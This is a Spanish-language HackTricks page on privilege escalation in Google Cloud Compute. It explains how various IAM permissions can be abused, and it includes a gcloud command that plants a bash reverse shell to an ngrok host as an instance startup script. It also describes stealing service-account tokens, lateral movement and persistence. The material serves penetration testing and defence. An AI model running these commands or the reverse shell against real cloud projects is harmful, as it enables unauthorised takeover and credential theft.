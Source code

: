 # GCP - Escalada de privilegios en Compute

<details>

<summary><strong>Aprende a hackear AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Compute

Para obtener más información sobre Compute y VPC (red) en GCP, consulta:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Ten en cuenta que para realizar todos los ataques de escalada de privilegios que requieren modificar los metadatos de la instancia (como agregar nuevos usuarios y claves SSH) es **necesario tener permisos de `actAs` sobre el SA adjunto a la instancia**, ¡incluso si el SA ya está adjunto!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con ese permiso puedes **modificar** la información de **metadatos** de una **instancia** y cambiar las **claves autorizadas de un usuario**, o **crear** un **nuevo usuario con permisos de sudo**. Por lo tanto, podrás ejecutar vía SSH en cualquier instancia de VM y robar la Cuenta de Servicio de GCP con la que se está ejecutando la instancia.\
Limitaciones:

* Ten en cuenta que las Cuentas de Servicio de GCP que se ejecutan en instancias de VM por defecto tienen un **alcance muy limitado**
* Necesitarás ser **capaz de contactar al servidor SSH** para iniciar sesión

Para obtener más información sobre cómo explotar este permiso, consulta:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

También podrías realizar este ataque agregando un nuevo script de inicio y reiniciando la instancia:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Este permiso otorga los **mismos privilegios que el permiso anterior** pero sobre instancias específicas en lugar de todo un proyecto. Se aplican **los mismos exploits y limitaciones que en la sección anterior**.

### `compute.instances.setIamPolicy`

Este tipo de permiso te permitirá **otorgarte a ti mismo un rol con los permisos anteriores** y escalar privilegios abusándolos.

### **`compute.instances.osLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso simplemente puedes ejecutar **`gcloud compute ssh [INSTANCIA]`** y conectarte a la instancia. **No tendrás privilegios de root** dentro de la instancia.

### **`compute.instances.osAdminLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso simplemente puedes ejecutar **`gcloud compute ssh [INSTANCIA]`** y conectarte a la instancia. Tendrás **privilegios de root** dentro de la instancia.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es posible **crear una máquina virtual con una Cuenta de Servicio asignada y robar el token** de la cuenta de servicio accediendo a los metadatos para escalar privilegios a ella.

El script de explotación para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si tienes los permisos **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puedes crear un [**trabajo de parche o despliegue**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Esto te permitirá moverte lateralmente en el entorno y obtener ejecución de código en todas las instancias de cómputo dentro de un proyecto.

Si deseas explotar esto manualmente, deberás crear un [trabajo de parche](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) o [despliegue](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) para un trabajo de parche ejecutar:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Para implementar un despliegue de parche:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Existen herramientas automatizadas como [patchy](https://github.com/rek7/patchy) para detectar permisos laxos y moverse lateralmente automáticamente.

**También puedes abusar de esto para persistencia.**

### `compute.machineImages.setIamPolicy`

**Otórgate permisos adicionales** para la Imagen de Cómputo.

### `compute.snapshots.setIamPolicy`

**Otórgate permisos adicionales** para una instantánea de disco.

### `compute.disks.setIamPolicy`

**Otórgate permisos adicionales** para un disco.

### Bypass de Alcances de Acceso

Siguiendo este enlace encontrarás algunas [**ideas para intentar evadir los alcances de acceso**](../).

### Escalada de Privilegios Local en una Instancia de Cómputo de GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
